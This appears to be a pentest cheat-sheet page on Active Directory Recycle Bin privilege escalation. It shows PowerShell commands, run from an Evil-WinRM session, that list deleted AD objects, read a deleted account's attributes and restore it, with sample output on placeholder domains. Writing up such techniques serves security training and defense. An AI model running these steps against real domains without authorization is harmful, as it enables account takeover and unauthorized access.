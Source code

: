 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Directory", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Another User\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=example,DC=com
Name              : Another User
                    DEL:ebe15df5-e265-45ec-b7fc-359877217138
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq '<DELETED_USER>' } -includeDeletedObjects -property *
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter { SAMAccountName -eq 'another.user' }
-includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : example.com/Deleted Objects/Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
...[SNIP]...
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<DELETED_USER>.2' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Restore-ADObject -Identity ebe15df5-e265-45ec-b7fc-359877217138 -NewName 'Another User2' -TargetPath 'CN=Users,DC=EXAMPLE,DC=COM'
```

{{< /tabcontent >}}
